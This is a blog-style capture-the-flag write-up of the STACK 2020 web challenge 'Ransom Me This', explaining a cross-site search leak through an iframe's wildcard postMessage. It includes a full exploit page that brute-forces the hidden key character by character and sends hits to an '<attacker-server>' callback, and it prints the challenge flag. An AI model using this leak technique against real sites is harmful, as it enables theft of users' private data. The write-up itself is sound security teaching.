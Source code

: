 ```yaml
---
layout: post
title: STACK 2020 - Ransom Me This
modified:
categories: blog/
excerpt:
tags: []
image:
  feature:
share: true
comments: true
date: 2020-12-11T11:56:30+08:00
---
```


![]({{site.url|append: site.baseurl}}/resources/images/stack/scoreboard.jpg)

STACK 2020 CTF is a capture the flag [organized by GovTech](https://ctf.tech.gov.sg/). We participated as PwningActionParty and achieved third place in the open category.

# Ransom Me This
**Category:** Web  
**Description:** 
COViD's victims received a link to this portal to submit their ransoms! Can you unlock the keys without paying the ransom?

---

![]({{site.url|append: site.baseurl}}/resources/images/stack/ransom-me-this.png){: width="600px"}

There are two parts to this website:

1. The ransom submission
2. The hacked website search

### The first step is to try to observe the behavior each feature exhibits

***1. The ransom submission***

This makes a POST request to `http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41021/` and the response doesn't seem to indicate any difference from the initial landing page.

However, using Burp Collaborator, we can test that a HTTP request is subsequently made to the URL we provided.

{% highlight linenos %}
GET / HTTP/1.1
Host: z44ebo81l5aokow0blhot5cp3g98xx.burpcollaborator.net
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/81.0.4044.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US
{% endhighlight %}

Notice that the user agent implies that this was made from a headless chrome instance, for now, there doesn't seem to be any other interesting behavior for this feature.

***2. The hacked website search***

This feature is located at `http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41021/search?q=` and embedded in an iFrame.

{% highlight javascript linenos %}
var numResults = "4"
window.parent.postMessage(numResults, '*');
{% endhighlight %}

From the inline JavaScript on the page, we see that it posts the number of search results as a message to the parent website embedding this iFrame, this is interesting because it specifies a wildcard target origin and the page itself allows being embedded from a different origin than itself. Keep this in mind, this primitive could be useful for leaking information across origins.

From the response of the site, there seems to be encryption key hidden from the search results, probably intentional since we might not be "authenticated" to view them.

### Hypothesis

From the information we have on hand, we can hypothesis where the flag might be located:

1. The HTTP request made from the headless chrome seem to imply that we need to make use of this feature in order to obtain the flag, and that we might need to utilize some browser feature (JavaScript methods, etc).
2. The cross-site information leak primitive seems to imply that we need to embed this page in our final exploit and to use the primitive to leak information on the flag.

Therefore, I can hypothesize that the flag is stored as a hidden encryption key, and we need to load our exploit payload in a website loaded by feature #1, and making use of the cross-site leak to leak the flag in feature #2.

### Exploit

{% highlight html linenos %}
<html>
<body>
<script>
window.onmessage = function(data) {
    success = parseInt(data.data);
    if (success == 0) {
    return;
    }
    var iframes = document.getElementsByTagName('iframe');
    for(var i = 0; i < iframes.length; i++) {
        if(data.source === iframes[i].contentWindow) {
            // Do stuff with iframes[i]
            var img = document.createElement('img')
            img.src = "http://<attacker-server>:8003?" + iframes[i].src;
            document.appendChild(img);
        }
    }
}
window.onload = function() {
    for (var i = 32; i <= 127; i++)  {
         s = String.fromCharCode(i);
         var iframe = document.createElement('iframe');
         iframe.src="http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41021/search?q=<?php echo $_GET['flag'];?>"+s;
         document.body.appendChild(iframe)
    }
}
</script>
</body>
</html>
{% endhighlight %}

This is my final exploit, it makes use of feature #2 to guess the flag character by character, and if the guess is correct, the message data should contain an non-zero integer, and if that happens, we cause a callback to our webserver to inform us.

Hosting this page on a webserver, I post the URL of the exploit page to feature #1 and incrementally guess the flag.

![]({{site.url|append: site.baseurl}}/resources/images/stack/ransom-me-this-guess.png)

Eventually we obtain our flag: `govtech-csg{Se@RcH_@nD_d3sTr0y}`